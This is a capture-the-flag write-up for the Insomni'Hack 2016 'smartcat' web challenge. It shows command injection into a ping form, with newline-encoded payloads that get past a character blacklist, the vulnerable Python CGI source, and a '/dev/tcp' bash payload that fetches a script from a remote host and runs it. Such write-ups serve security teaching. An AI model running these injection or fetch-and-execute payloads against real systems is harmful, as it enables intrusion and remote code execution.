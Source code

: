 ```yaml
---
title:      Insomni'Hack Teaser 2016 - smartcat
author:
date:       2016-01-16 01:25:00
summary:    Thou shalt not use blacklists!
categories: InsomniHack Web
tags:
 - Insomni'Hack
 - Web
---
```


In the smartcat challenge, we were given a tiny web
application with just a single functionality: a form that allows
to remotely ping an arbitrary host (yeah, that is the most classical
example of shell command injection!).
The challenge is divided in two parts (smartcat1 and smartcat2).
Although not difficult, it was quite fun, especially the second part.




### smartcat1 (50 points)

> Damn it, that stupid smart cat litter is broken again! Now only the debug interface is available [here](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) and this stupid thing only permits one ping to be sent! I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!

Pointing a browser to the debug interface, we are greeted with a form that
accepts a single parameter and
prints what seems the output of the Linux `ping` command. In fact, pinging
a non-existent host gives the message `Error running ping -c 1`.
Trying a trivial injection fails, and the error reveals that there is a blacklist
of allowed characters in the request string.
Good, otherwise the challenge would not have been fun at all!

After a few tries, we notice that the newline character (`0x0A`) is not blacklisted:
we are able to retrieve the path and content of the current directory with a POST
request to `index.cgi`, using `%0apwd%0als` as the `dest` parameter (i.e., the host to ping).
This leads to this output:

    /var/www/cgi-bin
    index.cgi
    there

Likely, the flag is in `there`, which is a directory. Unfortunately, the whitespace
character is blacklisted, so can't use the ls command to list the contents.
To overcome this issue, we used `find` (without any argument) to recurse into
the subdirectories of the current directory and list their content.
Doing a request with `dest=%0afind` as a parameter leads to:

    .
    ./index.cgi
    ./there
    ./there/is
    ./there/is/your
    ./there/is/your/flag
    ./there/is/your/flag/or
    ./there/is/your/flag/or/maybe
    ./there/is/your/flag/or/maybe/not
    ./there/is/your/flag/or/maybe/not/what
    ./there/is/your/flag/or/maybe/not/what/do
    ./there/is/your/flag/or/maybe/not/what/do/you
    ./there/is/your/flag/or/maybe/not/what/do/you/think
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

... and finally we just (smart)cat the flag: `dest=dest=%0acat<there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

{% highlight html %}
<p>Ping results:</p><br/>
  <pre>INS{warm_kitty_smelly_kitty_flush_flush_flush}
</pre>
{% endhighlight %}

By the way, using cat we can also retrieve the web application source code (`dest=%0acat<index.cgi`).
It is a simple Python CGI script, which filters the input according to a blacklist:

    blacklist = " $;&|({`\t"

and then passes it to the `ping` command without further sanitization:

    results = subprocess.check_output("ping -c 1 "+dest, shell=True)

### smartcat2 (50 points)

> Almost there, but now you should be able to do better than a cat (sorry about the pun). I'm sure you can leverage the previous bug to get a shell. Go on [that debug interface](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) again and read the flag in /home/smartcat/

Now we are told that the flag is in `/home/smartcat`.
As we can't use whitespaces, we need a smarter way to `cd` to that directory and list the content: using `dest=%0aHOME=/home/smartcat%0acd%0als` does the trick, and reveals that the directory contains two files:

    flag2
    readflag

We don't have the permissions to read `flag2`, but we can read and execute `readflag` (which is an executable binary).
Running it, we are greeted with this message:

> Almost there... just trying to make sure you can execute arbitrary commands....
Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!'.
Do not include the quotes. Each part is a different line.

At this point, we decided to use some bash-fu to retrieve and execute
a file from a remote host.
We used the `/dev/tcp` bashism to retrieve a script from an remote host, and give it
as an input to `bash`:

{% highlight bash %}
bash << EOF
bash < /dev/tcp/127.0.0.1/9000
EOF
ls
{% endhighlight %}

a.k.a. `dest=%0Abash<<EOF%0Abash</dev/tcp/127.0.0.1/9000%0AEOF%0Als`.
We terminate the command with `ls` so that the CGI application receives a successful return code in any case.
Instead of 127.0.0.1, we put the address of a publicly-accessible host
which was serving the following file on TCP port 9000:

{% highlight bash %}
#!/bin/bash

cd /home/smartcat
(
   echo "Give me a...""
   sleep 2
   echo "... flag!"
) | ./readflag
{% endhighlight %}

That was it. And the flag is...

    Flag:
                ___
            .-"; ! ;"-.
          .'!  : | :  !`.
         /\  ! : ! : !  /\
        /\ |  ! :|: !  | /\
       (  \ \ ; :!: ; / /  )
      ( `. \ | !:|:! | / .' )
      (`. \ \ \!:|:!/ / / .')
       \ `.`.\ |!|! |/,'.' /
        `._`.\\\!!!// .'_.'
           `.`.\\|//.'.'
            |`._`n'_.'|  hjw
            "----^----"
    
    INS{shells_are _way_better_than_cats}

Of course, with the same trick, we could also have launched an interactive reverse shell and read the flag from there :-)
